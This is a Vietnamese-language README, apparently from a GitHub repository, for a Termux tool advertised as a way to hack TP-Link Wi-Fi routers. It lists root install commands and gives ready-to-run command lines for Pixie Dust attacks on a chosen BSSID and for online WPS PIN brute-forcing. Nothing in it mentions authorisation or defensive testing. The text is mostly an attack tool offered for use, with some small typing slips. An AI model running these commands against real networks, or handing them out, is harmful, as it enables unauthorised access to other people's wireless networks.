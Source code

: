 ## BẢN 	TIẾNG VIỆT WPS_Wifi_Cracker_For_TP-Link_Router
### Hack TP Link Wifi Bằng Termux! (Yêu cầu quyền Root)t)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Cài đặt: :

```bash
$ apt update && apt upgrade -y
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/anhduong295/WPS_Wifi_Cracker_For_TP-Link_Router.git
$ chmod +x WPS_Wifi_Cracker_For_TP-Link_Router/Tanvir_inject.py
To Run: 
$ sudo python Tanvir_inject.py -i wlan0 -K
```

#### Ví dụ: `sudo python Tanvir_inject.py -i wlan0 -K`

#### Lưu ý:: 
**Đầu tiên, hãy tắt Wifi của bạn.**
- Hiển thị các mạng khả dụng và bắt đầu tấn công Pixie Dust vào một mạng cụ thể.
- `sudo python Tanvir_inject.py -i wlan0 -K`
- Bắt đầu tấn công Pixie Dust vào một BSSID cụ thể: 
`sudo python Tanvir_inject.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Khởi chạy tấn công brute-force WPS trực tuyến với nửa đầu của mã PIN được chỉ định:
- `sudo python Tanvir_inject.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Khắc phục sự cố
**"Thiết bị hoặc tài nguyên đang bận (-16)" - Bật Wifi sau đó tắt Wifi.**
